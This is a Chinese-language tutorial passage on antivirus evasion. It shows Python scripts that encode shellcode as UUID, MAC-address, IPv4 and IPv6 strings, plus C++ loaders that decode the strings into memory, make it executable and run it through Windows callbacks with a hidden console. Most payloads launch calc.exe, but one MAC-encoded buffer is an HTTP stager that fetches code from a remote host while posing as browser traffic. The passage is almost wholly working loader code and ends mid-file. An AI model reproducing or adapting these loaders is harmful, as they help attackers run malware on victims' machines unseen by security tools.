

### 直接使用回调函数执行

```c_cpp
#include <windows.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
using namespace std;
int main() {
 const char* buf[] = { "e48348fc-e8f0-00c8-0000-415141505251"};
 // 读写
 LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf) * 16, MEM_COMMIT,
 PAGE_READWRITE);
    // uuid转成之前格式的sc
    DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
    int init = sizeof(buf) / sizeof(buf[0]);
    for (int i = 0; i < init; i++) {
        RPC_STATUS STATUS = UuidFromStringA((RPC_CSTR)buf[i], (UUID*)ptr);
        if (!NT_SUCCESS(STATUS)) {
            printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS,
            GetLastError());
            return FALSE;
        }
        ptr += 16;
    }
    // 修改内存属性
    DWORD pflOldProtect = 0;
    // 可以执行的属性
    VirtualProtect(alloc_mem, sizeof(buf) * 16, PAGE_EXECUTE, &pflOldProtect);
    // 回调函数执行
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
    return 0;
}
```

### 动态调用api

```c_cpp
#include <windows.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

typedef BOOL(WINAPI* lpEnumDateFormatsA)(
DATEFMT_ENUMPROCA lpDateFmtEnumProc,
LCID Locale,
DWORD dwFlags
 );
typedef BOOL(WINAPI* lpVirtualProtect)(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flNewProtect,
PDWORD lpflOldProtect
 );
typedef LPVOID(WINAPI* lpVirtualAlloc)(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
 );
int main() {
 const char* buf[] = { "e48348fc-e8f0-00c8-0000-415141505251" };
 // 获取函数地址并赋值给对应申明的函数
 lpVirtualAlloc myVl= (lpVirtualAlloc)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), 
 "VirtualAlloc");
 lpVirtualProtect myVp =
 (lpVirtualProtect)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualProtect");
 lpEnumDateFormatsA myEn =
 (lpEnumDateFormatsA)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), 
 "EnumDateFormatsA");
 LPVOID alloc_mem = myVl(NULL, sizeof(buf) * 16, MEM_COMMIT, PAGE_READWRITE);
 // uuid转成之前格式的sc
 DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
 int init = sizeof(buf) / sizeof(buf[0]);
 for (int i = 0; i < init; i++) {
  RPC_STATUS STATUS = UuidFromStringA((RPC_CSTR)buf[i], (UUID*)ptr);
  if (!NT_SUCCESS(STATUS)) {
   printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, 
   GetLastError());
   return FALSE;
  }
  ptr += 16;
 }
 // 修改内存属性
 DWORD pflOldProtect = 0;
 // 可以执行的属性
 myVp(alloc_mem, sizeof(buf) * 16, PAGE_EXECUTE, &pflOldProtect);
 // 回调函数执行
 myEn((DATEFMT_ENUMPROCA)alloc_mem, NULL, NULL);
 return 0;
}
```

## 9.2mac

shellcode_to_mac.py:

```python
# 指定文件编码为utf-8，确保代码在处理字符串时使用正确的编码格式
# coding = utf-8

import ctypes  # 导入ctypes库，用于与Windows API进行交互
import sys  # 导入sys库，但在这段代码中没有实际用到

# Input your shellcode like:\xfc\x48\x83\xe4\xf0\xe8\xxx
# 这里定义了shellcode，用字节字符串的形式表示
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

# VirtualAlloc 在内存中分配一块区域，大小为 shellcode 的长度除以6再乘以17字节
# 0x3000 = MEM_COMMIT | MEM_RESERVE，0x40 = PAGE_EXECUTE_READWRITE
macmem = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode) / 6 * 17, 0x3000, 0x40)

# 遍历shellcode的每6个字节，并将其转换为以太网地址字符串
for i in range(len(shellcode) / 6):  # shellcode每6个字节为一组
    # 取出shellcode中第i个6字节的部分
    bytes_a = shellcode[i * 6: 6 + i * 6]
    # 调用Windows API函数RtlEthernetAddressToStringA，将这6个字节的Shellcode转成以太网地址字符串
    ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem + i * 17)

# 读取macmem中转换后的数据，将其按字符串形式提取出来（每个地址占17字节）
a = ctypes.string_at(macmem, len(shellcode) * 3 - 1)

# 初始化一个空的列表来保存每个转换后的以太网地址字符串
lst = []

# 遍历每一段17字节的内存数据（每段表示一个以太网地址字符串）
for i in range(len(shellcode) / 6):
    # 从macmem中获取第i段的以太网地址字符串，长度为17字节
    d = ctypes.string_at(macmem + i * 17, 17)
    # 将该字符串添加到列表lst中
    lst.append(d)

# 将所有以太网地址字符串连接成一个以逗号分隔的字符串，并以双引号括起来
s = '","'.join(lst)
print('"' + s + '"')  # 输出最终的字符串结果
```

运行, 注意 python2运行

```
python2 shellcode_to_mac.py
```

```c_cpp
#include <windows.h>
#include<stdio.h>
#include <ip2string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
int main() {
 const char* buf[] = { "FC-48-83-E4-F0-E8",};
 PCSTR lTerminator = NULL;
    // 申请内存
    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf) * 6, MEM_COMMIT, PAGE_READWRITE);
    // 转成之前格式的sc
    DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
    int init = sizeof(buf) / sizeof(buf[0]);
    for (int i = 0; i < init; i++) {
        RPC_STATUS STATUS = RtlEthernetStringToAddressA((PCSTR)buf[i], &lTerminator, 
        (DL_EUI48*)ptr);
        if (!NT_SUCCESS(STATUS)) {
            printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, 
            GetLastError());
            return FALSE;
        }
        ptr += 6;
    }
    // 修改内存
    DWORD pflOldProtect = 0;
    VirtualProtect(alloc_mem, sizeof(buf) * 6, PAGE_EXECUTE, &pflOldProtect);
    // 回调函数调用
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
    return 0;
}
```

### 动态调用api

```c_cpp
#include <windows.h>
#include<stdio.h>
#include <ip2string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
typedef BOOL(WINAPI* lpEnumDateFormatsA)(
DATEFMT_ENUMPROCA lpDateFmtEnumProc,
LCID Locale,
DWORD dwFlags
 );
typedef BOOL(WINAPI* lpVirtualProtect)(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flNewProtect,
PDWORD lpflOldProtect
 );
typedef LPVOID(WINAPI* lpVirtualAlloc)(
 LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
 );
int main() {
const char* buf[] = { "FC-48-83-E4-F0-E8","C8-00-00-00-41-51","41-50-52-51-56-48","31-
D2-65-48-8B-52","60-48-8B-52-18-48","8B-52-20-48-8B-72","50-48-0F-B7-4A-4A","4D-31-
C9-48-31-C0","AC-3C-61-7C-02-2C","20-41-C1-C9-0D-41","01-C1-E2-ED-52-41","51-48-8B-
52-20-8B","42-3C-48-01-D0-66","81-78-18-0B-02-75","72-8B-80-88-00-00","00-48-85-C0-74-
67","48-01-D0-50-8B-48","18-44-8B-40-20-49","01-D0-E3-56-48-FF","C9-41-8B-34-88-
48","01-D6-4D-31-C9-48","31-C0-AC-41-C1-C9","0D-41-01-C1-38-E0","75-F1-4C-03-4C-
24","08-45-39-D1-75-D8","58-44-8B-40-24-49","01-D0-66-41-8B-0C","48-44-8B-40-1C-
49","01-D0-41-8B-04-88","48-01-D0-41-58-41","58-5E-59-5A-41-58","41-59-41-5A-48-
83","EC-20-41-52-FF-E0","58-41-59-5A-48-8B","12-E9-4F-FF-FF-FF","5D-6A-00-49-BE-77","69-
6E-69-6E-65-74","00-41-56-49-89-E6","4C-89-F1-41-BA-4C","77-26-07-FF-D5-48","31-C9-48-
31-D2-4D","31-C0-4D-31-C9-41","50-41-50-41-BA-3A","56-79-A7-FF-D5-EB","73-5A-48-89-
C1-41","B8-50-00-00-00-4D","31-C9-41-51-41-51","6A-03-41-51-41-BA","57-89-9F-C6-FFD5","EB-59-5B-48-89-C1","48-31-D2-49-89-D8","4D-31-C9-52-68-00","02-40-84-52-52-
41","BA-EB-55-2E-3B-FF","D5-48-89-C6-48-83","C3-50-6A-0A-5F-48","89-F1-48-89-DA-
49","C7-C0-FF-FF-FF-FF","4D-31-C9-52-52-41","BA-2D-06-18-7B-FF","D5-85-C0-0F-85-
9D","01-00-00-48-FF-CF","0F-84-8C-01-00-00","EB-D3-E9-E4-01-00","00-E8-A2-FF-FF-FF","2F-
6A-71-75-65-72","79-2D-33-2E-33-2E","32-2E-73-6C-69-6D","2E-6D-69-6E-2E-6A","73-00-E7-
39-B6-A4","D2-88-80-E6-2E-41","A9-E1-C5-32-F3-E5","C6-F6-7C-E7-D8-DA","F6-1C-30-C6-
C9-18","0E-BE-2B-53-26-CD","80-03-75-FE-6C-85","3D-05-E9-A5-02-34","59-72-7E-26-9B-
1E","19-00-41-63-63-65","70-74-3A-20-74-65","78-74-2F-68-74-6D","6C-2C-61-70-70-
6C","69-63-61-74-69-6F","6E-2F-78-68-74-6D","6C-2B-78-6D-6C-2C","61-70-70-6C-69-
63","61-74-69-6F-6E-2F","78-6D-6C-3B-71-3D","30-2E-39-2C-2A-2F","2A-3B-71-3D-30-
2E","38-0D-0A-41-63-63","65-70-74-2D-4C-61","6E-67-75-61-67-65","3A-20-65-6E-2D-
55","53-2C-65-6E-3B-71","3D-30-2E-35-0D-0A","52-65-66-65-72-65","72-3A-20-68-74-
74","70-3A-2F-2F-63-6F","64-65-2E-6A-71-75","65-72-79-2E-63-6F","6D-2F-0D-0A-41-
63","63-65-70-74-2D-45","6E-63-6F-64-69-6E","67-3A-20-67-7A-69","70-2C-20-64-65-
66","6C-61-74-65-0D-0A","55-73-65-72-2D-41","67-65-6E-74-3A-20","4D-6F-7A-69-6C-
6C","61-2F-35-2E-30-20","28-57-69-6E-64-6F","77-73-20-4E-54-20","36-2E-33-3B-20-54","72-
69-64-65-6E-74","2F-37-2E-30-3B-20","72-76-3A-31-31-2E","30-29-20-6C-69-6B","65-20-47-
65-63-6B","6F-0D-0A-00-9D-D7","28-92-EF-9A-5A-E4","0C-1D-41-4B-17-A9","D9-86-23-FC-
11-FB","92-CC-54-5A-BB-9B","33-6E-13-A8-21-0E","F2-D3-15-92-D8-DF","48-6B-C2-21-A4-
08","40-FB-8C-F3-4B-94","08-5A-CB-E5-D0-00","41-BE-F0-B5-A2-56","FF-D5-48-31-C9-
BA","00-00-40-00-41-B8","00-10-00-00-41-B9","40-00-00-00-41-BA","58-A4-53-E5-FFD5","48-93-53-53-48-89","E7-48-89-F1-48-89","DA-41-B8-00-20-00","00-49-89-F9-41-
BA","12-96-89-E2-FF-D5","48-83-C4-20-85-C0","74-B6-66-8B-07-48","01-C3-85-C0-75-
D7","58-58-58-48-05-AF","0F-00-00-50-C3-E8","9F-FD-FF-FF-31-39","32-2E-31-36-38-
2E","32-33-33-2E-31-34","30-00-00-01-86-A0" };
PCSTR lTerminator = NULL;
// 获取函数地址并赋值给对应申明的函数
lpVirtualAlloc myVl = (lpVirtualAlloc)GetProcAddress(GetModuleHandle(L"Kernel32.dll"),
"VirtualAlloc");
 lpVirtualProtect myVp =
(lpVirtualProtect)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualProtect");
 lpEnumDateFormatsA myEn =
 (lpEnumDateFormatsA)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), 
 "EnumDateFormatsA");
 LPVOID alloc_mem = myVl(NULL, sizeof(buf) * 16, MEM_COMMIT, PAGE_READWRITE);
 // mac转成之前格式的sc
 DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
 int init = sizeof(buf) / sizeof(buf[0]);
 for (int i = 0; i < init; i++) {
  RPC_STATUS STATUS = RtlEthernetStringToAddressA((PCSTR)buf[i], &lTerminator, 
  (DL_EUI48*)ptr);
  if (!NT_SUCCESS(STATUS)) {
   printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, 
   GetLastError());
   return FALSE;
  }
  ptr += 6;
 }
 // 修改内存属性
 DWORD pflOldProtect = 0;
 // 可以执行的属性
 myVp(alloc_mem, sizeof(buf) * 16, PAGE_EXECUTE, &pflOldProtect);
 // 回调函数执行
 myEn((DATEFMT_ENUMPROCA)alloc_mem, NULL, NULL);
 return 0;
}
```

### 除了RtlEthernetStringToAddressA还可以使用 RtlEthernetStringToAddressA

```c_cpp
#include <windows.h>
#include<stdio.h>
#include <ip2string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
int main() {
    const char* buf[] = { "FC-48-83-E4-F0-E8", "C0-00-00-00-41-51", "41-50-52-51-56-48", "31-
D2-65-48-8B-52", "60-48-8B-52-18-48", "8B-52-20-48-8B-72", "50-48-0F-B7-4A-4A", "4D-31-
C9-48-31-C0", "AC-3C-61-7C-02-2C", "20-41-C1-C9-0D-41", "01-C1-E2-ED-52-41", "51-48-
8B-52-20-8B", "42-3C-48-01-D0-8B", "80-88-00-00-00-48", "85-C0-74-67-48-01", "D0-50-8B-
48-18-44", "8B-40-20-49-01-D0", "E3-56-48-FF-C9-41", "8B-34-88-48-01-D6", "4D-31-C9-48-
31-C0", "AC-41-C1-C9-0D-41", "01-C1-38-E0-75-F1", "4C-03-4C-24-08-45", "39-D1-75-D8-
58-44", "8B-40-24-49-01-D0", "66-41-8B-0C-48-44", "8B-40-1C-49-01-D0", "41-8B-04-88-48-
01", "D0-41-58-41-58-5E", "59-5A-41-58-41-59", "41-5A-48-83-EC-20", "41-52-FF-E0-58-41", 
"59-5A-48-8B-12-E9", "57-FF-FF-FF-5D-48", "BA-01-00-00-00-00", "00-00-00-48-8D-8D", "01-
01-00-00-41-BA", "31-8B-6F-87-FF-D5", "BB-F0-B5-A2-56-41", "BA-A6-95-BD-9D-FF", "D5-
48-83-C4-28-3C", "06-7C-0A-80-FB-E0", "75-05-BB-47-13-72", "6F-6A-00-59-41-89", "DA-FFD5-63-61-6C", "63-2E-65-78-65-00" };
PCSTR lTerminator = NULL;
        DWORD pflOldProtect = 0;
        LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf) * 6, MEM_COMMIT, PAGE_READWRITE);
        DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
        int init = sizeof(buf) / sizeof(buf[0]);
        for (int i = 0; i < init; i++) {
            RPC_STATUS STATUS = RtlEthernetStringToAddressA((PCSTR)buf[i], &lTerminator, 
            (DL_EUI48*)ptr);
            if (!NT_SUCCESS(STATUS)) {
                printf("[!] RtlEthernetStringToAddressA failed in %s result %x (%u)", buf[i], STATUS, 
                GetLastError());
                return FALSE;
            }
            ptr += 6;
        }
        VirtualProtect(alloc_mem, sizeof(buf) * 6, PAGE_EXECUTE, &pflOldProtect);
        EnumWindows((WNDENUMPROC)alloc_mem, NULL);
        return 0;
    }
```

## 9.3 ipv4

shellcode转成ipv4

shellcode_to_ipv4.py:

```python
# coding = utf-8
import ctypes
import sys


#Input your shellcode like:\xfc\x48\x83\xe4\xf0\xe8\xxx
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
ipv4 = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode)/4*15, 0x3000, 0x40)

for i in range(len(shellcode)/4):
    bytes_shellcode = shellcode[i*4:i*4+4]
    ctypes.windll.Ntdll.RtlIpv4AddressToStringA(bytes_shellcode, ipv4+i*15)

a = ctypes.string_at(ipv4, len(shellcode)*4-1)

l = []
for i in range(len(shellcode)/4):
    d = ctypes.string_at(ipv4+i*15, 15)
    l.append(d)

s = '","'.join(l)
print('"'+s+'"')
```

python2运行

```
python2 shellcode_to_ipv4.py
```

```c_cpp
#include <windows.h>
#include<stdio.h>
#include <ip2string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
int main() {
    const char* buf[] = {
        "252.72.131.228","240.232.192.0","0.0.65.81","65.80.82.81","86.72.49.210","101.72.139.82","96.7
        2.139.82","24.72.139.82","32.72.139.114","80.72.15.183","74.74.77.49","201.72.49.192","172.60.
        97.124","2.44.32.65","193.201.13.65","1.193.226.237","82.65.81.72","139.82.32.139","66.60.72.1"
        ,"208.139.128.136","0.0.0.72","133.192.116.103","72.1.208.80","139.72.24.68","139.64.32.73","1.
        208.227.86","72.255.201.65","139.52.136.72","1.214.77.49","201.72.49.192","172.65.193.201","1
        3.65.1.193","56.224.117.241","76.3.76.36","8.69.57.209","117.216.88.68","139.64.36.73","1.208.1
        02.65","139.12.72.68","139.64.28.73","1.208.65.139","4.136.72.1","208.65.88.65","88.94.89.90","
        65.88.65.89","65.90.72.131","236.32.65.82","255.224.88.65","89.90.72.139","18.233.87.255","255
        .255.93.72","186.1.0.0","0.0.0.0","0.72.141.141","1.1.0.0","65.186.49.139","111.135.255.213","187
        .240.181.162","86.65.186.166","149.189.157.255","213.72.131.196","40.60.6.124","10.128.251.22
        4","117.5.187.71","19.114.111.106","0.89.65.137","218.255.213.99","97.108.99.46","101.120.101.
        0" };
        PCSTR lTerminator = NULL;
        DWORD pflOldProtect = 0;
        LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_READWRITE);
        DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
        int init = sizeof(buf) / sizeof(buf[0]);
        for (int i = 0; i < init; i++) {
            RPC_STATUS STATUS = RtlIpv4StringToAddressA((PCSTR)buf[i], FALSE, &lTerminator,
            (in_addr*)ptr);
            if (!NT_SUCCESS(STATUS)) {
                printf("[!] RtlIpv6StringToAddressA failed in %s result %x (%u)", buf[i], STATUS,
                GetLastError());
                return FALSE;
            }
            ptr += 4;
        }
        VirtualProtect(alloc_mem, sizeof(buf), PAGE_EXECUTE, &pflOldProtect);
        EnumWindows((WNDENUMPROC)alloc_mem, NULL);
        return 0;
    }
```

### 同样也有 RtlIpv4StringToAddressA 和 RtlIpv4AddressToStringA

```c_cpp
#include <windows.h>
#include<stdio.h>
#include <ip2string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
int main() {
    const char* buf[] = { 
        "252.72.131.228","240.232.192.0","0.0.65.81","65.80.82.81","86.72.49.210","101.72.139.82","96.7
        2.139.82","24.72.139.82","32.72.139.114","80.72.15.183","74.74.77.49","201.72.49.192","172.60.
        97.124","2.44.32.65","193.201.13.65","1.193.226.237","82.65.81.72","139.82.32.139","66.60.72.1"
        ,"208.139.128.136","0.0.0.72","133.192.116.103","72.1.208.80","139.72.24.68","139.64.32.73","1.
        208.227.86","72.255.201.65","139.52.136.72","1.214.77.49","201.72.49.192","172.65.193.201","1
        3.65.1.193","56.224.117.241","76.3.76.36","8.69.57.209","117.216.88.68","139.64.36.73","1.208.1
        02.65","139.12.72.68","139.64.28.73","1.208.65.139","4.136.72.1","208.65.88.65","88.94.89.90","
        65.88.65.89","65.90.72.131","236.32.65.82","255.224.88.65","89.90.72.139","18.233.87.255","255
        .255.93.72","186.1.0.0","0.0.0.0","0.72.141.141","1.1.0.0","65.186.49.139","111.135.255.213","187
        .240.181.162","86.65.186.166","149.189.157.255","213.72.131.196","40.60.6.124","10.128.251.22
        4","117.5.187.71","19.114.111.106","0.89.65.137","218.255.213.99","97.108.99.46","101.120.101.
        0" };
        PCSTR lTerminator = NULL;
        DWORD pflOldProtect = 0;
        LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_READWRITE);
        DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
        int init = sizeof(buf) / sizeof(buf[0]);
        for (int i = 0; i < init; i++) {
            RPC_STATUS STATUS = RtlIpv4StringToAddressA((PCSTR)buf[i], FALSE, &lTerminator, 
            (in_addr*)ptr);
            if (!NT_SUCCESS(STATUS)) {
                printf("[!] RtlIpv6StringToAddressA failed in %s result %x (%u)", buf[i], STATUS, 
                GetLastError());
                return FALSE;
            }
            ptr += 4;
        }
        VirtualProtect(alloc_mem, sizeof(buf), PAGE_EXECUTE, &pflOldProtect);
        EnumWindows((WNDENUMPROC)alloc_mem, NULL);
        return 0;
    }
```

## 9.4 ipv6

shellcode转成ipv6

```python
import ctypes

def main():
    buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

    p = 0
    ip_str_list = []
    
    while p < len(buf):
        byte_chunk = buf[p:p+16]
        ip_str = convert_to_ipv6(byte_chunk)
        ip_str_list.append(ip_str)
        p += 16
    
    print("const char* buf[] = {" + ", ".join(f'"{ip_str}"' for ip_str in ip_str_list) + "};")

def convert_to_ipv6(byte_chunk):
    ip_str = ctypes.create_string_buffer(46)  # IPv6 地址字符串的最大长度为 46
    ctypes.windll.ntdll.RtlIpv6AddressToStringA(byte_chunk, ctypes.byref(ip_str))
    return ip_str.value.decode('utf-8')

if __name__ == "__main__":
    main()

```

python3运行



```c_cpp
#include <windows.h>
#include <ip2string.h>
#include <iostream>
#pragma comment(lib, "ntdll.lib")
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
using namespace std;
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

int main() {
